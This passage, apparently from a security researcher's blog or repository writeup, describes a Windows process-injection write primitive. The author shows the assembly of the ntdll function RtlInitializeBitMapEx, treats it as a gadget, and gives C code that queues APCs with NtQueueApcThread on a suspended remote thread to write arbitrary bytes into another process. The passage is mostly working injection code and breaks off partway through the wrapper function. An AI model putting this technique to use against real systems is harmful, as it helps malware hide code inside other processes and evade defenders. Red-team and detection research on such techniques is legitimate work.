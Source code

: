 After looking for so many hours into ntdll assembly instructions for something that would fit the purpose of Write primitive, I finally found, guess what, ANOTHER FUNCTION, RtlInitializeBitMapEx.  
  
RtlInitializeBitMapEx Definition (Again, this is my definition, not MSDN's):    
```
BOOL RtlInitializeBitMapEx(
  PVOID  addressMemoryToWrite,
  PVOID  8bytesToWriteAfter8Bytes,
  PVOID  8bytesToWrite
);
```  
  
RtlInitializeBitMapEx Assembly:  
```
mov [rcx], r8
mov [rcx+8], rdx
ret;
```  
  
Realistically speaking this is a godsend function/rop gadget (fop gadget?), since it allows not only to write 8 bytes at a time but 16! This is 16 times better than RtlFillMemory, since this function takes as a first argument the memory where we want to allocate the bytes to; as a second argument, it takes the 8 bytes after the first 8 bytes we want to write into the allocated address plus 8 bytes; as a third argument it takes the first 8 bytes we want to write into the allocated address, so performing a NtQueueApcThread loop and iterating by 16 bytes at a time allows for writing in the remote process successfully. However, in order to optimize the process in case the bytes are more or less than 8 or 16 or divisible by 8, I had to use RtlFillBuffer as well.  


Wrapper created for this primitive for remote allocation:  
```
void WriteRemoteMemory(HANDLE hProc, LPVOID heapAllocation, int sizeofVal, unsigned char* buffer, HMODULE module) 
{
	LPVOID RtlFillMemory = GetProcAddress(module, "RtlFillMemory");
	LPVOID RtlExitUserThread = GetProcAddress(module, "RtlExitUserThread");
	LPVOID RtlInitializeBitMapEx = GetProcAddress(module, "RtlInitializeBitMapEx");

	HANDLE hThread2 = NULL;
	NtCreateThreadEx(&hThread2, THREAD_ALL_ACCESS, NULL, hProc, RtlExitUserThread, (PVOID)0x00000000, TRUE, NULL, NULL, NULL, NULL);
	int alignmentCheck = sizeofVal % 16;
	int offsetMax = sizeofVal - alignmentCheck;
	int firCounter = 0;
	int eightCounter = 0;
	int secCounter = 0;
	int mod = 0;

	if (sizeofVal >= 16) {
		for (firCounter = 0; firCounter < offsetMax -1; firCounter = firCounter + 16) {
			char* heapWriter = (char*)heapAllocation + firCounter;
			NtQueueApcThread(hThread2, (PKNORMAL_ROUTINE)RtlInitializeBitMapEx, (PVOID)heapWriter, (PVOID)*(ULONG_PTR*)((char*)buffer + firCounter + 8), (PVOID)*(ULONG_PTR*)((char*)buffer + firCounter));
		}
	}

	if (alignmentCheck >= 8) {	
		for (eightCounter = firCounter; (eightCounter + 8) < (firCounter + alignmentCheck -1); eightCounter = eightCounter + 8) {
			char* heapWriter = (char*)heapAllocation + eightCounter;
			NtQueueApcThread(hThread2, (PKNORMAL_ROUTINE)RtlInitializeBitMapEx, (PVOID)heapWriter, NULL, (PVOID)*(ULONG_PTR*)((char*)buffer + eightCounter));
		}
		alignmentCheck -= 8;
	}

```